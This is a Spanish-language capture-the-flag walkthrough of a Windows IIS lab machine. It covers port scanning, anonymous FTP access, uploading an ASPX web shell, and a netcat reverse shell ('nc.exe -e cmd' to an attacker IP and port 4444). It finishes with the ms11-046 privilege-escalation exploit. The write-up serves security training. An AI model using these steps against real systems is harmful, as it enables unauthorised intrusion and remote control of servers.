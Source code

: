 
Iniciamos con un escaneo de puertos abiertos y servicios mediante la herramienta nmap
`sudo nmap -p- --open -sS --min-rate 5000 -n -v -sV -Pn `
![[Pasted image 20240911061730.png]]
Podemos observar que el puerto 21 corre un servidor ftp y el 80 un servicio web http, 
veamos que podemos obtener mediante un escaneo de puertos mas avanzado
`nmap -p 21,80 -sCV 10.10.10.5`
![[Pasted image 20240911061832.png]]
Podemos observar que el servidor ftp es accesible mediante el usuario Anonymous (sin contraseña), ademas nos muestra los archivos que contiene.
Accedamos al servidor 
`ftp 10.10.10.5`
![[Pasted image 20240911062627.png]]
Efectivamente contiene los ficheros que muestra el escaneo, veamos que contiene la imagen, por el nombre parece ser una imagen de bienvenida de una web, podria ser la que esta corriendo en el puerto 80.
`get welcome.png`
![[Pasted image 20240911062216.png]]
![[Pasted image 20240911062246.png]]
Al parecer da un error, veamos a mostrar la imagen por consola
`kitty +kitten icat welcome.png`
![[Pasted image 20240911062355.png]]
Este error puede ser porque no hemos descargado la imagen en modo binario, probemos asi
![[Pasted image 20240911062653.png]]
![[Pasted image 20240911062724.png]]
Al parecer es una imagen normal, antes de ver la web escaneare la misma mediante whatweb
![[Pasted image 20240911062919.png]]

Vemos que tenemos un Windows IIS/7.5, vamos a visitar la web
`http://10.10.10.5/`

![[Pasted image 20240913051710.png]]

La web se compone unicamente de esta imagen, la misma que encontramos en el servidor ftp, probemos añadiendo a la url lo que encontramos en el sevidor ftp

`http://10.10.10.5/welcome.png`

![[Pasted image 20240913051856.png]]

`http://10.10.10.5/iisstart.htm`

![[Pasted image 20240914045912.png]]
La maquina es Windows ya que si en la direccion alternamos las misnusculas por mayusculas nos dirige al destino, esto en una maquina linux no pasaria
`http://10.10.10.5/iisstart.htm`
`http://10.10.10.5/IISStart.htm`

![[Pasted image 20240914050034.png]]
Viendo que añadiendo las rutas anteriores nos responde con el contenido del servidor ftp pienso que la web esta conectada a este servidor ftp, por lo que si subimos un archivo deberia mostrarlo.
Probamos subiendo un archivo txt con un contenido cualquiera para ver si lo muestra


![[Pasted image 20240914050128.png]]



Vemos si la web muestra el contenido del txt para confirmar que la web esta conectada al servidor ftp

`http://10.10.10.5/prueba.txt`

![[Pasted image 20240914050231.png]]

La web esta conectada al servidor ftp, por lo que si subimos una web shell podremos ejecutarla.
Buscamos en nuestro sistema un binario 
`locate .aspx`
![[Pasted image 20240915040355.png]]

Probaremos con la siguiente 
`/usr/share/davtest/backdoors/aspx_cmd.aspx`
Lo añadimos al directorio actual de trabajo y lo  subiremos por ftp y lo ejecutaremos en la web
![[Pasted image 20240915042044.png]]
![[Pasted image 20240915042127.png]]
Ejecutamos la WebShell
`http://10.10.10.5/aspx_cmd.aspx`

![[Pasted image 20240915042252.png]]
![[Pasted image 20240915042324.png]]
Ahora podemos subir una reverse shell y ponernos en escucha para ganar el acceso
![[Pasted image 20240915042556.png]]
Añadimos la reverse shell en el directorio actual de trabajo y la subimos mediante ftp
`cp /home/mblnt/Desktop/SecLists/Web-Shells/FuzzDB/nc.exe .`

![[Pasted image 20240915042705.png]]
![[Pasted image 20240915045821.png]]

Ahora localizamos la reverse shell para poder ejecutarla

En un servidor **IIS (Internet Information Services)** en Windows, la ruta **`inetpub/wwwroot`** es el directorio predeterminado donde se almacenan los archivos web que se sirven a través del servidor.
![[Pasted image 20240915043708.png]]
Otra forma de localizar el archivo nc.exe
![[Pasted image 20240915043554.png]]
Si no lo encuentra en el disco C: deberia estar en otro como el E:, etc..

Con la dirección de la reverse shell nos ponemos en esucha y la ejecutamos 

![[Pasted image 20240915043912.png]]
`C:\inetpub\wwwroot\nc.exe -e cmd 10.10.14.51 4444`


![[Pasted image 20240915044135.png]]

![[Pasted image 20240915045856.png]]
Ya tenemos acceso a la reverse shell
![[Pasted image 20240915050720.png]]

Vemos la inormacion del sistema y la version es demasiado antigua por lo que buscamos algun exploit para escalar privilegios

![[Pasted image 20240915050839.png]]

![[Pasted image 20240915050903.png]]

Lo descargamos y lo subitmos mediante el sevidor ftp
![[Pasted image 20240915051251.png]]
Lo ejecutamos
`cd C:\inetpub\wwwroot\`
![[Pasted image 20240915051340.png]]
`\.ms11-046.exe`
![[Pasted image 20240915051758.png]]

FLAGS

![[Pasted image 20240915051904.png]]
USER FLAG
![[Pasted image 20240915052031.png]]
ROOT FLAG
![[Pasted image 20240915052115.png]]




--------------------------------------------------------------------------
Escalada de privilegios mediante metaasploit
